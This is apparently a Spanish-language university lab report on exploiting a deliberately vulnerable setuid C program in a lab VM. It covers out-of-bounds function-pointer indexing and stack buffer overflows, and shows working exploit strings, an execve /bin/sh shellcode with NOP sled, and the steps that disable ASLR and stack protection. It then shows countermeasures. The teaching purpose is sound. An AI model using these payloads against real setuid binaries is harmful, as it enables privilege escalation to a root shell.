

# Vulnerabilidades software de bajo nivel

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

Se ha desarrollado un script para compilar el ejecutable sin la protección con canarios de pila:

```bash
#!/bin/bash

gcc -m32 -fno-stack-protector -z execstack -ggdb cifrado.c -o cifrado
sudo chown root cifrado
sudo chmod 4755 cifrado
```

### Pregunta 1. 
Si, por ejemplo, se introduce el valor 666 cuando el programa pide elegir
una opción del menú (1-4) se verifica un fallo de segmento. Hay una vulnerabilidad
asociada a una variable que puede ser indexada fuera de su límite.

#### Cuál es la variable?
La variable que genera el código vulnerable es: `opt`.
Al esta estar definida como un array de `[0 - COMM_SIZE-1]` si se introduce un valor mayor que `COMM_SIZE` se genera un fallo de segmento.

// Si s >= COMM_SIZE entonces accede fuera 
#### Indica la línea de código que puede indexar la variable fuera de su límite.
```c
func_ptr opt[COMM_SIZE] = {NULL, escribirPalabra, cifrar, verPalabras,
                             terminar};
//...

// La entrada es generada por el usuario
scanf("%s", resp);
resp[strlen(resp)] = '\0';
int s = atoi(resp);

// Si s >= COMM_SIZE entonces accede fuea 
terminado = opt[s](); 	// <--- código vulnerable
```

###  Pregunta 2. Hay vulnerabilidades de desbordamiento de búfer en el programa.
#### ¿Cuáles son las variables?
`resp`, `texto`, `palabra`, `offset`

#### ¿Qué parte de la memoria (e.g., código, data segment, bss, pila, heap, ...) asociada al proceso se puede desbordar?
`resp`, `texto`, `palabra`, `offset` se encuentran en el stack/pila.

#### Indica las líneas de código que pueden desbordar los búferes.

Línea 112: Hay una vulnerabilidad al usar la función no segura `scanf`
```c
int main() {
    ...
    scanf("%s", resp);
    ...
}
```


Línea 43 y 45: También aparecen usos de la función `scanf`.
```c
int escribirPalabra() {
    ...
    scanf("%s", palabra);
    ...
    scanf("%u", &offset);
    ...
}
```
 
Este caso no permite explotar el comportamiento no deseado pero puede provocar un fallo de segmento si la palabra está cerca de tener `MAX_SIZE` caracteres (sin alcanzarlos)
```c
int verPalabras() {
  for (struct palabraCifrada *p = lista; p != NULL; p = p->next) {
    char texto[MAX_SIZE] = "";
    strcat(texto, p->palabra);
    strcat(texto, "\t");
    strcat(texto, p->cifrado);
  }

  return 0;
}
```

### Pregunta 3. 
#### ¿Hay otras vulnerabilidades en el código? ¿Cuáles (indica las líneas de código correspondientes)?

En este fragmento de código es posible invocar punteros a funciones en cualquier posición de la pila, manipulando el valor de `s`. 
```c
int main() {
  func_ptr extra[2] = {NULL, mostrarSecreto1};
  ...
  int s = atoi(resp);
  terminado = opt[s]();
  ...
}
```

### Pregunta 4. 
#### ¿Cuál es la dirección de las variables opt y extra? >En qué parte de la memoria se encuentran?

A continuación se incluye la traza de GDB con las direcciones de las variables. Ambas se encuentran en la pila.
```
(gdb) p &opt
$2 = (func_ptr (*)[5]) 0xffffd184
(gdb) p &extra
$3 = (func_ptr (*)[2]) 0xffffd17c
```

### Pregunta 5.
#### ¿Qué datos de entrada proporcionas al programa para que opt[s] lea (y luego intente ejecutar) la dirección de la función mostrarSecreto1 guardada en extra, en lugar de una función guardada en opt?

En primer lugar se ha mostrado el contenido de ambas variables y se ha observado que se puede invocar mostrarSecreto desde `extra[1]`
```c
opt = {0x0, 0x56556333 <escribirPalabra>, 0x56556440 <cifrar>, 
  0x565564f6 <verPalabras>, 0x5655661a <terminar>}
extra = {0x0, 0x56556300 <mostrarSecreto1>}
```

Así introduciendo un valor -1 se tiene que @opt[-1] = &extra[1], por lo que se ejecuta el primer secreto:

```
Hola! Menú:
 1. Escribir palabra
 2. Cifrar
 3. Ver palabras
 4. Terminar
-1
Bien! Primer logro conseguido
```
### Pregunta 6.
#### ¿Cuál es la dirección del búfer asociado a la variable resp? ¿Y la dirección de la función mostrarSecreto2?

A continuación se incluyen las direcciones de las variables relevantes:
```
(gdb) p &resp
$8 = (char (*)[64]) 0xffffd13c

(gdb) p &mostrarSecreto2
$9 = (int (*)()) 0x565562cd <mostrarSecreto2>
```

### Pregunta 7.
#### ¿Qué datos de entrada proporcionas al programa para que opt[s] lea (y luego intente ejecutar) a partir de resp[8]?

Se deben introducir 8 caracteres de padding para intentar ejecutar a partir de `resp[8]`. Conocida la dirección de resp, se deduce que el número a introducir es -16, ya que $\frac{@opt - @resp[8]}{4} = 16$. Además, sabiendo que la dirección de mostrarSecreto2 es 0x565562CD, la entrada maliciosa será:

```
-16aaaaa\xCD\x62\x55\x56
```
El resultado es el siguiente:


### Pregunta 8.
#### Hay otra forma de conseguir la escritura del segundo mensaje secreto por pantalla? En caso positivo, explica cómo conseguirlo y motiva los pasos y datos introducidos.

Se ha encontrado una manera adicional aprovechando una vulnerabilidad en la función `escribirPalabra` desbordando el búfer desde la invocación `scanf()`:

```c
...
printf("Escribe la palabra:\n");
char palabra[MAX_SIZE];
memset(palabra, 0, MAX_SIZE);
scanf("%s", palabra);
...
```

Para ello es necesario obtener la dirección de la variable palabra y calcular la diferencia entre la dirección en la que se encuentra la @retorno y @palabra. Añadiendo el número de a's necesario y sobreescribiendo el valor de la dirección de retorno se consigue redirigir el flujo de ejecución.
```
(gdb) p &palabra
$1 = (char (*)[64]) 0xffffd0d8
```

Cadena:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xcd\x62\x55\x56

La pila tendrá el siguiente contenido:


### Contramedidas

#### ASLR

Primera ejecución
```
(gdb) b 120
Breakpoint 1 at 0x565686d1: file cifrado.c, line 120.
(gdb) continue
Continuing.

Breakpoint 1, main () at cifrado.c:120
120				int s = atoi(resp);
(gdb) p $sp
$1 = (void *) 0xffe9a0c0
```

Segunda ejecución
```
(gdb) b 120
Breakpoint 1 at 0x5655f6d1: file cifrado.c, line 120.
(gdb) continue
Continuing.

Breakpoint 1, main () at cifrado.c:120
120				int s = atoi(resp);
(gdb) p $sp
$1 = (void *) 0xff806490
``` 

#### Canarios

```
[11/23/22]seed@VM:~/.../p4$ while read -r line; do echo -e $line; done | ./cifrado2
Hola! Menú:
 1. Escribir palabra
 2. Cifrar
 3. Ver palabras
 4. Terminar
1
Escribe la palabra:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Escribe desplazamiento:
1
*** stack smashing detected ***: terminated
```

#### Pila no ejecutable

Esta contramedida se puede observar en el caso del shellcode, ya que el propio código se encuentra en la pila. Al no poder ejecutar el shellcode el programa imprime un mensaje de error. 

## Parte 4

Se ha obtenido un [shellcode](http://shell-storm.org/shellcode/index.html) que permite lanzar un proceso de shell aprovechando la vulnerabilidad de BOF del programa. El procedimiento para generar la entrada es el siguiente:

- En primer lugar se añade un *padding* para posicionar la dirección de salto que redirige el flujo de ejecución.

- Después, se sobreescribe la dirección de retorno para que apunte a la dirección inicial del código malicioso.

- Finalmente 

El shellcode añadido se incluye a continuación:

```
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80
```

A continuación se incluye el contenido de la pila introduciendo manualmente algunos valores para que se corresponda con el código máquina del shellcode anterior:



Se puede observar que efectivamente se ha lanzado un nuevo proceso de shell:


##### Shellcode
```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xd8\xd0\xff\xff\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```

## Conclusiones

En esta práctica hemos podido observar varias vulnerabilidades de seguridad en programas escritos en C. En primer lugar, hemos visto que el uso de funciones no seguras como *gets* o *scanf* sin comprobar el tamaño de la entrada puede provocar un desbordamiento de búfer. Además, una vez descubierta una vulnerabilidad de este tipo, es posible realizar varios tipos de ataques, como la ejecución de código arbitrario en la pila o la redirección del flujo de ejecución (por ejemplo para obtener una shell con privilegios elevados).

Además, se ha observado a su vez que el uso de contramedidas como ASLR, canarios o pila no ejecutable pueden evitar que se produzcan desbordamientos de búfer, y que la suma de estas contramedidas puede hacer que un programa sea más seguro.

## Referencias 

- Lista de [shellcodes](http://shell-storm.org/shellcode/index.html)